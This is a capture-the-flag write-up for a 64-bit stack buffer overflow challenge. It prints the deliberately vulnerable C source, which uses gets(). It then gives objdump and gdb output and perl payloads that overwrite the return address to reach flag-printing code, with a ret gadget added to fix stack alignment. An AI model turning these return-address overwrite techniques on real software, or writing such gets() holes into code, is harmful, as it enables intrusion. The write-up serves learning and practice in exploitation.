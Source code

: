 # New Overflow 2

> Okay now lets try mainpulating arguments

Program:

```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <stdbool.h>

#define BUFFSIZE 64
#define FLAGSIZE 64

bool win1 = false;
bool win2 = false;

void win_fn1(unsigned int arg_check) {
  if (arg_check == 0xDEADBEEF) {
    win1 = true;
  }
}

void win_fn2(unsigned int arg_check1, unsigned int arg_check2, unsigned int arg_check3) {
  if (win1 && \
      arg_check1 == 0xBAADCAFE && \
      arg_check2 == 0xCAFEBABE && \
      arg_check3 == 0xABADBABE) {
    win2 = true;
  }
}

void win_fn() {
  char flag[48];
  FILE *file;
  file = fopen("flag.txt", "r");
  if (file == NULL) {
    printf("'flag.txt' missing in the current directory!\n");
    exit(0);
  }

  fgets(flag, sizeof(flag), file);
  if (win1 && win2) {
    printf("%s", flag);
    return;
  }
  else {
    printf("Nope, not quite...\n");
  }


  

}

void flag() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("'flag.txt' missing in the current directory!\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFFSIZE];
  gets(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  puts("Welcome to 64-bit. Can you match these numbers?");
  vuln();
  return 0;
}
```

## Solution 1: Abuse `flag`

It looks like they accidentally left the `flag` function in, so we should be
able to abuse it with a simple overflow. First note this is an `x86-64`
executable:

```
$ file vuln
vuln: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=c5ea0b50d6714a8e9cc331e140a7964d06fdf092, not strippe
```

Let's find the address of `flag`:

```
$ objdump -dM intel vuln | grep '^[a-e0-9]\+ <flag>'
000000000040084d <flag>:
```

and get the location of the target buffer in `vuln`:

```
$ objdump -dM intel vuln | grep -A 5 '^[a-e0-9]\+ <vuln>'
00000000004008b2 <vuln>:
  4008b2:	55                   	push   rbp
  4008b3:	48 89 e5             	mov    rbp,rsp
  4008b6:	48 83 ec 40          	sub    rsp,0x40
  4008ba:	48 8d 45 c0          	lea    rax,[rbp-0x40]
  4008be:	48 89 c7             	mov    rdi,rax
```

So after writing `0x48` values we should be able to overwrite the return
address to our target:

```
$ perl -e 'print "A" x 0x48 . "\x4d\x08\x40\x00\x00\x00\x00\x00"' | ./vuln
Welcome to 64-bit. Can you match these numbers?
Segmentation fault (core dumped)
```

Well, that wasn't the desired result. Let's see what went wrong:

```
$ gdb ./vuln
(gdb) set disassembly-flavor intel
(gdb) run < <(perl -e 'print "A" x 0x48 . "\x4d\x08\x40\x00\x00\x00\x00\x00"')
<-----SNIP----->
Program received signal SIGSEGV, Segmentation fault.
buffered_vfprintf (s=s@entry=0x7ffff7dd0760 <_IO_2_1_stdout_>, format=format@entry=0x7fffffffe3f8 "test_flag_plz_ignore\n",
    args=args@entry=0x7fffffffe318) at vfprintf.c:2314
2314	vfprintf.c: No such file or directory.
(gdb) x/i $rip
=> 0x7ffff7a426ee <buffered_vfprintf+158>:	movaps XMMWORD PTR [rsp+0x50],xmm0
```

After a quick search online for the `movaps` instruction:

> When the source or destination operand is a memory operand, the operand must
> be aligned on a 16-byte

And noting

```
(gdb) print $rsp+0x50
$1 = (void *) 0x7fffffffbc78
```

Is an address that _is not_ divisible by 16, how did we get here? I found this
[useful response](https://stackoverflow.com/questions/54393105/libcs-system-when-the-stack-pointer-is-not-16-padded-causes-segmentation-faul)
on Stack Overflow, in particular

> The x86-64 System V ABI guarantees 16-byte stack alignment before a call, so
> libc system is allowed to take advantage of that for 16-byte aligned
> loads/stores. If you break the ABI, it's your problem if things crash.

(TODO: find a source to verify this). Assuming this is the case, let's hope
another `ret` instruction can re-align our stack for us. Using the return
address from `win_fn` (`0x40084c`) our payload is now:

```
perl -e 'print "A" x 0x48 . "\x4c\x08\x40\x00\x00\x00\x00\x00" . "\x4d\x08\x40\x00\x00\x00\x00\x00"'
```

Which does the trick

## Solution 2: Actually Using Arguments

Let's try to actually use the `win_fn*` functions. Glancing at `win_fn1`:

```
$ objdump -dM intel vuln | sed -n '/^[a-f0-9]\+ <win_fn1>/,/^$/p'
0000000000400767 <win_fn1>:
  400767:	55                   	push   rbp
  400768:	48 89 e5             	mov    rbp,rsp
  40076b:	89 7d fc             	mov    DWORD PTR [rbp-0x4],edi
  40076e:	81 7d fc ef be ad de 	cmp    DWORD PTR [rbp-0x4],0xdeadbeef
  400775:	75 07                	jne    40077e <win_fn1+0x17>
  400777:	c6 05 fb 08 20 00 01 	mov    BYTE PTR [rip+0x2008fb],0x1        # 601079 <win1>
  40077e:	90                   	nop
  40077f:	5d                   	pop    rbp
  400780:	c3                   	ret
```

in particular, the instructions:

```
  40076b:	89 7d fc             	mov    DWORD PTR [rbp-0x4],edi
  40076e:	81 7d fc ef be ad de 	cmp    DWORD PTR [rbp-0x4],0xdeadbeef
```

which correspond to ` if (arg_check == 0xDEADBEEF)`, we see the parameter is
read from a register, and not from the stack. So I guess we can't just push
arguments to the stack and call the functions sequentially. However, each of
`win_fn1` and `win_fn2` simply check their arguments, if the check passes a
flag is set, then they return. Since there's nothing special going on between
when these flags are set and when the function returns, we could just try
jumping to these instructions then to `win_fn`.

From above, we want to jump to `0x400777` to set `win1`, similarly we find for
`win2` we will want to jump to `0x4007b4`. Note that for both these functions
there is a `pop rbp` instruction before `ret`, so we will need to add some
buffering to account for this. Our payload is now:

```
perl -e 'print "A" x 0x48                   # Padding buffer until return address
    . "\x77\x07\x40\x00\x00\x00\x00\x00"    # win1 = 1
    . "A" x 0x8                             # padding for "pop rbp"
    . "\xb4\x07\x40\x00\x00\x00\x00\x00"    # win2 = 1
    . "A" x 0x8                             # padding for "pop rbp"
    . "\xbe\x07\x40\x00\x00\x00\x00\x00"    # address of win_fn
    '
```

Trying this and we again run into the same issue we saw with the previous
solution, so add a extra `ret` instruction to align as required:

```
perl -e 'print "A" x 0x48                   # Padding buffer until return address
    . "\x77\x07\x40\x00\x00\x00\x00\x00"    # win1 = 1
    . "A" x 0x8                             # padding for "pop rbp"
    . "\xb4\x07\x40\x00\x00\x00\x00\x00"    # win2 = 1
    . "A" x 0x8                             # padding for "pop rbp"
    . "\x4c\x08\x40\x00\x00\x00\x00\x00"    # "ret" instruction to align stack
    . "\xbe\x07\x40\x00\x00\x00\x00\x00"    # address of win_fn
    '
```
